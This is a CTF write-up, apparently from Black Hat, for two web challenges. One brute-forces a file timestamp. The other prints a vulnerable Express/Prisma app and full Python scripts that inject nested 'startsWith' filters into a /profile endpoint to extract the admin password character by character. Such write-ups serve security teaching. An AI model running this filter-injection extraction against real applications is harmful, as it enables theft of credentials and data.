






**challenge1:**



in this challenge when we start an instance it show the php code on the webpage



after analyzing the code it is clear

it check if `1.txt` exist if not then it create a file with random modification time between range. the range is between start of 2000 and start of 2024 in normal time.


a touch function is use to create a random modifation time for `note.txt`

```touch(string $filename, ?int $mtime = null, ?int $atime = null): bool```

the else if condition match mtime parameter with note.txt file if match it show flag.php

Exploitation:

we simply write a script to brute force all the time between the range given ie unix timestamp (946684800,1704067200)

if the responce contain a word BHFlagY{ which is the flag formate for blackhat ctf writeup we catch the responce



and we have the flag in responce




**challenge2:**



In this challenge we have a java script code is given.

first we view the code

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const crypto=require('crypto');
const jwt = require('jsonwebtoken');
const { PrismaClient } = require('@prisma/client');

const app = express();
const prisma = new PrismaClient();

app.use(bodyParser.json());

const SECRET_KEY = crypto.randomBytes(32).toString("hex");


async function createAdminUser() {
    const adminEmail = 'admin@admin.com';
    const adminPassword = process.env.FLAG || 'adminpassword';
    const adminUser = await prisma.user.findUnique({
      where: { email: adminEmail },
    });
  
    if (!adminUser) {
  
  
      await prisma.user.create({
        data: {
          email: adminEmail,
          password: adminPassword,
          profile: {
            create: {
              email: adminEmail, // You can use the same email or another field for profile
            },
          },
        },
      });
      
      console.log('Admin user created');
    } else {
      console.log('Admin user already exists');
    }
  }
  
  createAdminUser();


// User registration
app.post('/register', async (req, res) => {
  const { email, password } = req.body;
  
  if (!email || !password){
    return res.status(400).json({error: "Please fill all fields"})
  }

  try {
    const user = await prisma.user.create({
      data: {
        email: email,
        password: password,
        profile: {
          create: {
            email: email,
          },
        },
      },
    });
    res.json(user);
  } catch (error) {
    console.log(error)
    res.status(400).json({ error: 'User already exists' });
  }
});

// User login
app.post('/login', async (req, res) => {
  const { email, password } = req.body;
  if (!email || !password){
    return res.status(400).json({error: "Please fill all fields"})
  }
  const user = await prisma.user.findUnique({
    where: { email,password },
  });

  if (user.length == 0) {
    return res.status(400).json({ error: 'Invalid email or password' });
  }

  const token = jwt.sign({ userId: user.id }, SECRET_KEY, { expiresIn: '1h' });

  res.json({ token });
});

// Middleware to protect routes
const authMiddleware = (req, res, next) => {
  const token = req.headers['authorization'];

  if (!token) {
    return res.status(401).json({ error: 'Unauthorized' });
  }

  try {
    const decoded = jwt.verify(token, SECRET_KEY);
    console.log(decoded);
    req.userId = decoded.userId;
    next();
  } catch (error) {
    res.status(401).json({ error: 'Unauthorized1' });
  }
};

// Protected route
app.post('/profile', authMiddleware, async (req, res) => {
  const {userId} = req.body;

    const profile = await prisma.profile.findMany({
    where: userId
  });
  
  
  res.json(profile);
});


app.listen(3000, () => {
  console.log('Server is running on http://localhost:3000');
});
```

**Points:**

The Authorization header is used incorrectly in the /profile endpoint. The token is meant to identify and authenticate the user making the request, but the endpoint does not validate the user's ownership of the userId being queried.

In the /profile endpoint, the Prisma query uses findMany directly on userId without validating the structure of the input.This allows to inject nested objects (e.g., startsWith) to perform highly specific database queries.

The authMiddleware verifies the JWT but does not cross-check the userId in the request body with the userId in the token payload. This leads to a privilege escalation vulnerability.

Exploitation:

first we simply register a user
```python
try:
    reg = requests.post(f"{URL}/register", json=data1)
    reg.raise_for_status()
    print("Registration Successful")
except requests.RequestException as e:
    print(f"Error during registration: {e}")
    exit()
```

then we login and retrieve the token

```python
try:
    login = requests.post(f"{URL}/login", json=data1)
    login.raise_for_status()
    token = login.json().get("token")
    if not token:
        print("Error: Token not retrieved during login.")
        exit()
    print(f"Token Retrieved: {token}")
except requests.RequestException as e:
    print(f"Error during login: {e}")
    exit()
```
Now to exploit the the prism filter vulnerability we write a script like

define a set of character for brute force then we match character by character if the responce contain okay we know that the password at the index is correct. for this we have


```python
chars = "0123456789abcdefghijklmnopqrstuvwxyz"
password_prefix = "BHFlagY{"  # Start of the flag
data = {
    "userId": {
        "email": {
            "startsWith": "admin"
        },
        "user": {
            "password": {
                "startsWith": password_prefix
            }
        }
    }
}

password_found = False
password = password_prefix

# Attempt to find the full password
try:
    while not password_found:
        for c in chars:
            new_password = password + c
            data["userId"]["user"]["password"]["startsWith"] = new_password

            response = requests.post(f"{URL}/profile", headers=headers, json=data)
            print(f"Trying: {new_password}")
            if response.status_code == 200 and "id" in response.text:
                password = new_password
                print(f"Password segment found: {password}")
                if len(password) == 50:  # Adjust length based on expected flag size
                    password_found = True
                break
except requests.RequestException as e:
    print(f"Error during password guessing: {e}")

print(f"Flag: {password}")

```

the out look like 

BHFlagY{0} -> No match.

BHFlagY{1} -> No match.

BHFlagY{a} -> Match! Password is now BHFlagY{a}.

same for all index

we we have the flag




complete script:

```python
import requests
import json

# Base URL of the CTF challenge
URL="http://a1e66976e0507ccbd4b60.playat.flagyard.com/"
# Registration credentials
data1 = {"email": "munib@a.com", "password": "a"}

# Register a user
try:
    reg = requests.post(f"{URL}/register", json=data1)
    reg.raise_for_status()
    print("Registration Successful")
except requests.RequestException as e:
    print(f"Error during registration: {e}")
    exit()

# Login and retrieve token
try:
    login = requests.post(f"{URL}/login", json=data1)
    login.raise_for_status()
    token = login.json().get("token")
    if not token:
        print("Error: Token not retrieved during login.")
        exit()
    print(f"Token Retrieved: {token}")
except requests.RequestException as e:
    print(f"Error during login: {e}")
    exit()

# Set up headers for further requests
headers = {
    'Authorization': f'{token}',
    'Content-Type': 'application/json',
}

# Characters to attempt in the password
chars = "0123456789abcdefghijklmnopqrstuvwxyz"
password_prefix = "BHFlagY{"  # Start of the flag
data = {
    "userId": {
        "email": {
            "startsWith": "admin"
        },
        "user": {
            "password": {
                "startsWith": password_prefix
            }
        }
    }
}

password_found = False
password = password_prefix

# Attempt to find the full password
try:
    while not password_found:
        for c in chars:
            new_password = password + c
            data["userId"]["user"]["password"]["startsWith"] = new_password

            response = requests.post(f"{URL}/profile", headers=headers, json=data)
            print(f"Trying: {new_password}")
            if response.status_code == 200 and "id" in response.text:
                password = new_password
                print(f"Password segment found: {password}")
                if len(password) == 50:  # Adjust length based on expected flag size
                    password_found = True
                break
except requests.RequestException as e:
    print(f"Error during password guessing: {e}")

print(f"Flag: {password}")
```